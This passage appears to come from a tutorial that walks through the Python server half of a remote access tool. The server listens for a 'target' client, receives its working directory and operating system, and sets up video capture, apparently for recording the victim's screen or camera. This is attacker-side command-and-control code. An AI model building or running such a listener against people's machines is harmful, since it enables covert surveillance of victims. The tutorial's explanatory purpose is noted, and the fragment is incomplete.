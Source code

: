 Next:

+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

# Create the socket object.
s = socket.socket()
# Bind the socket to all IP addresses of this host.
s.bind((SERVER_HOST, SERVER_PORT))
# Make the PORT reusable
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
# Set the maximum number of queued connections to 5.
s.listen(5)
print(f"Listening as {SERVER_HOST} on port {SERVER_PORT} ...")
# Accept any connections attempted.
client_socket, client_address = s.accept()
print(f"{client_address[0]}:{client_address[1]} Connected!")
# Receive the current working directory and os of the target (client).
cwd = client_socket.recv(BUFFER_SIZE).decode()
targets_os = client_socket.recv(BUFFER_SIZE).decode()
# Print the info received.
print("[+] Current working directory: ", cwd)
print("[+] Target's Operating system: ", targets_os)
# Set up the video capture and writer.
cap = None
out = None
recording_thread = None






++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
Moving on:

# Function to handle Ctrl+C signal.
def signal_handler(sig, frame):
    print('Saving video and exiting...')
    if recording_thread is not None:
        recording_thread.join()
    if cap is not None and out is not None:
        cap.release()
        out.release()
    cv2.destroyAllWindows()
    client_socket.close()
    s.close()
    exit(0)
# Set up the signal handler.
signal.signal(signal.SIGINT, signal_handler)